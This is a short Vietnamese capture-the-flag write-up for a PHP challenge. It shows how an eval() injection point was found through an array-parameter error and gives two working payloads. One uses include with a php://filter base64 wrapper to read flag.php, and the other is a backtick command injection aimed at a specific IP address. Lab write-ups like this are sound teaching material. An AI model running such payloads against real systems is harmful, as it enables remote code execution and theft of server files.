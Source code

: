 # giới thiệu
Cũng không có gì ngoài 1 cái ảnh nhưng được gợi ý ở đây là ngay ở phần tên và tên file trên trang web /xchall.php .
# solution
 Đây là 1 bài php và có thể là command injection  
Bài này cũng phải tìm param như bài trước sau đó thực hiện injection  
Khi thay đổi parameter từ ?name= sang ?name[]= điều đó làm thay đổi parameter từ string sang array điều này gây ra lỗi và thể hiện ra rằng các giá trị của parameter đang được chuyển tới hàm eval()
Tiếp theo sử dụng các công cụ dirscan để tìm ra cờ là flag.php .Sử dụng kĩ thuật **php wrapper** để lấy bài flag
final solution  

```/xchal.php?name=".include($_GET['a']);$name="&a=php://filter/convert.base64-encode/resource=flag.php```  
or
```http://34.18.3.149:8000/xchal.php?name=`%22%26%26+var_dump(`base64%20flag.php`);%23;` ```
# Lưu ý sau khi giải những bài sau
